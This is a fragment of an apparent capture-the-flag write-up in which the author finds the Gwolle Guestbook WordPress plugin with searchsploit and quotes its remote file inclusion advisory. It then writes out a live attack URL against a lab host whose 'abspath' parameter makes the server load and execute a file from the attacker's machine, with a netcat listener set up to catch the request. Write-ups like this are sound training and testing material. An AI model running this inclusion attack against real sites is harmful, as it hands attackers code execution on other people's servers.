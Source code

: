 Searchsploit:

![](img/ss-wp-plugins.png)

The Gwolle one looks useful.

- https://www.exploit-db.com/exploits/38861

Summary:

```
HTTP GET parameter "abspath" is not being properly sanitized before being used in PHP require() function. A remote attacker can include a file named 'wp-load.php' from arbitrary remote server and execute its content on the vulnerable web server. In order to do so the attacker needs to place a malicious 'wp-load.php' file into his server document root and includes server's URL into request:

http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]
```

Trying it on the website:

```
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.10/
```

With a netcat listener to see what it requests:

![](img/nc-rfi-listener.png)
